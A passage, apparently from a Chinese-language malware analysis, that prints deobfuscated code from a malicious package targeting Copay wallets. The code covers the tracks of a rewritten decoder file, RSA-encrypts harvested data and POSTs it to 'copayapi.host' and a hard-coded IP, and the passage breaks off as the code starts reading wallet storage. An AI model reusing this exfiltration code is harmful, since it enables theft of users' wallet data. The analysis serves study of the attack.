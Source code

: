 ```
          fs.writeFileSync(decoderPath, decoderSource, "utf8");
          fs.utimesSync(decoderPath, decoderStat.atime, decoderStat.mtime);
        } catch (err) {}
      });
    }
  } catch (err) {}
};
```

第二部分就更有趣了。我将一些多余的代码段被删掉了，来凸显出其原意图：

```
/*@@*/
function doBadStuff() {
  try {
    const http = require("http");
    const crypto = require("crypto");
    const publicKey = "-----BEGIN PUBLIC KEY-----\n...TRUNCATED...\n-----END PUBLIC KEY-----";

    function sendRequest(hostname, path, body) {
      // Original request "decodes" a hex representation of the hostnames
      // hostname = Buffer.from(hostname, "hex").toString();

      const req = http.request({
        hostname: hostname,
        port: 8080,
        method: "POST",
        path: "/" + path, // path will be /p or /c
        headers: {
          "Content-Length": body.length,
          "Content-Type": "text/html"
        }
      }, function() {});

      req.on("error", function(err) {});

      req.write(body);

      req.end();
    }

    function sendRequests(path, rawStringPayload) {
      // path = "c" || "p"
      let payload = "";
      for (let i = 0; i < rawStringPayload.length; i += 200) {
        const chunk = rawStringPayload.substr(i, 200);
        payload += crypto.publicEncrypt(
          publicKey,
          Buffer.from(chunk, "utf8")
        ).toString("hex") + "+";
      }

      sendRequest("copayapi.host", path, payload);
      sendRequest("111.90.151.134", path, payload);
    }

    function getDataFromStorage(name, callback) {
      if (window.cordova) {
        try {
          const dd = cordova.file.dataDirectory;
          resolveLocalFileSystemURL(dd, function(localFs) {
            localFs.getFile(name, {
              create: false
            }, function(file) {
```